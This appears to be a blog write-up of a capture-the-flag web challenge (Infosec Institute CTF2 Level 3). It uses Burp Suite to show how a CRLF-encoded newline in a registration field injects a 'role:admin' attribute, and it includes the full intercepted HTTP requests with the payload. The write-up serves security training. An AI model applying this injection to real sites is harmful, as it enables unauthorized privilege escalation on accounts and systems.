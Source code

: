 ```yaml
---
layout: post
title: Infosec Institute CTF2 Practical Web Hacking Level 3
category: Web
tags: infosec
---
```


**Vulnerability** Data Validation; Parameter Delimiter
**Description:**

![screen]({{site.url}}/assets/Screen Shot 2015-07-16 at 11.51.03 PM.png)

## Write-up

For almost all levels I will be using Burpsuite. Burpsuite is an interception proxy that lets us modify the HTTP request
 / response by intercepting the data between the browser and the web server.
 
Let's first create a user account to test the functionality. Again, have Burp running so we can see the HTTP request.

When creating an account the HTTP request looks like this:

{% highlight text linenos %}
POST /ctf2/exercises/ex3.php HTTP/1.1
Host: ctf.infosecinstitute.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.6.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf.infosecinstitute.com/ctf2/exercises/ex3.php
Cookie: PHPSESSID=gdc668pjmpah42hegt7sa7igc3
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

user=A1A2A3A4&password=A1A2A3A4&lname=A1A2A3A4&email=A1A2A3A4%40aaa.com&register=Register
{% endhighlight %}

Login using the user we created, we can see that the role is 'normal', we need to change it to admin.

![screen1]({{site.url}}/assets/Screen Shot 2015-07-16 at 11.58.23 PM.png)

We can use Burp's Repeater to efficiently experiment with different parameters and values. Find the Registration request under
the Proxy tab -> HTTP History, right click and select 'Send to Repeater'.

![screen2]({{site.url}}/assets/Screen Shot 2015-07-17 at 12.34.08 AM.png)

After a while experimenting I noticed that adding a newline character would change the order of parameters.  

Registration HTTP request:

![screen3]({{site.url}}/assets/Screen Shot 2015-07-17 at 12.51.53 AM.png)

The newline character is url encoded '%0d%0a' in the password parameter. When I login, Account Details displays the following:  

![screen4]({{site.url}}/assets/Screen Shot 2015-07-17 at 12.42.02 AM.png)

This means that we have shifted the order of the account's attributes so, if we do our insertion after the lname parameter,
we should be able to inject the role attribute in the right spot.

HTTP request:

{% highlight text linenos %}
POST /ctf2/exercises/ex3.php HTTP/1.1
Host: ctf.infosecinstitute.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.6.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf.infosecinstitute.com/ctf2/exercises/ex3.php
Cookie: PHPSESSID=gdc668pjmpah42hegt7sa7igc3
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

user=A1A2A3A4&password=A1A2A3A4&lname=A1A2A3A4%0d%0arole:admin&email=A1A2A3A4%40aaa.com&register=Register
{% endhighlight %}

And... Level 3 complete.

![screen5]({{site.url}}/assets/Screen Shot 2015-07-17 at 1.34.12 AM.png)

## Links

* <http://ctf.infosecinstitute.com/ctf2/exercises/ex3.php>
